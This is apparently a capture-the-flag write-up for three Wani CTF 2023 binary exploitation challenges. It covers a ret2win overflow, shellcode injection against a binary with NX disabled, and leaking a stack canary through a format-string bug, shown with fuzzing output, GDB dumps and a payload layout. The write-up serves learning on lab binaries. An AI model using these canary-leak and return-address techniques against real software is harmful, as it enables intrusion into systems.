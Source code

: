 # Wani CTF 2023

## ret2win

This is a simple buffer overflow, the aim of this challenge is to jump to the win function.
The payload will be structured as follows:
> Payload = PADDING + win_address()

## shell-basic
Simple shellcode injection

```bash
[*] '/home/feedz/Desktop/waniCTF/waniCTF_2023/pwn-shell-basic/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments

```

we can see that NX is disabled and that means we can go with shellcode injection.


## Canaleak

the aim of this challenge is to leak the stack canary through format string vulnerability and then jump to the win function.

```C
while (strcmp(nope, "YES")) {
    printf("You can't overwrite return address if canary is enabled.\nDo you "
           "agree with me? : ");
    scanf("%s", nope);
    printf(nope);
  }
```

the focus is to leak stuff from the stack through printf, as I said first this will help us to leak the stack canary.
we can try to fuzz the stack and try to identify the stack canary.
the stack canary end in 00.

```
0: Do you agree with me? : %0$p
1: Do you agree with me? : 0xa
2: Do you agree with me? : (nil)
3: Do you agree with me? : 0x7f32a9619aa0
4: Do you agree with me? : (nil)
5: Do you agree with me? : 0x7fc3bb378040
6: Do you agree with me? : 0x70243625
7: Do you agree with me? : (nil)
8: Do you agree with me? : (nil)
9: Do you agree with me? : 0xef1553a888ae3b00
10: Do you agree with me? : 0x1
11: Do you agree with me? : 0x7fe97bc29d90
12: Do you agree with me? : (nil)
13: Do you agree with me? : 0x401254
14: Do you agree with me? : 0x100000000
```

we can see that in the first 15 occurrences only 1 ends with 00.
Number 9 is our candidate

Now let's check better with GDB.
```gdb
You can't overwrite return address if canary is enabled.
Do you agree with me? : %9$p
0xb2431c61d958e500

gef➤  canary
[*] .gef-2b72f5d0d9f0f218a91cd1ca5148e45923b950d5.py:L4935 'checksec' is deprecated and will be removed in a feature release. Use Elf(fname).checksec()
[+] The canary of process 16904 is at 0x7fffffffe2b9, value is 0xb2431c61d958e500
```
yes, %9$p will be our stack canary.
let's craft our payload:
> Payload = buffer_padding + canary + padding_rbp + win_address

Note that win fuction starts at 0x40123d but this function will push rbp on the stack, and this will dis-align the stack.
So we can pass 0x401245 directly, which is the syscall to /bin/sh.

```gdb
gef➤  disas win
Dump of assembler code for function win:
   0x000000000040123d <+0>:	endbr64 
   0x0000000000401241 <+4>:	push   rbp
   0x0000000000401242 <+5>:	mov    rbp,rsp
   0x0000000000401245 <+8>:	lea    rdi,[rip+0xdbc]        # 0x402008
   0x000000000040124c <+15>:	call   0x4010d0 <system@plt> 
   0x0000000000401251 <+20>:	nop
   0x0000000000401252 <+21>:	pop    rbp
   0x0000000000401253 <+22>:	ret    
End of assembler dump.
```

the stack alignment will look something like this:
```gdb
0x007ffc9282ce08│+0x0008: "AAAAAAAAAAAAAAAA"
0x007ffc9282ce10│+0x0010: "AAAAAAAA"
0x007ffc9282ce18│+0x0018: 0x338641c2c0127900
0x007ffc9282ce20│+0x0020: 0x4242424242424242	 ← $rbp
0x007ffc9282ce28│+0x0028: 0x00000000401245  →  <win+8> lea rdi, [rip+0xdbc]        # 0x402008
```
just run the exploit and get the flag!








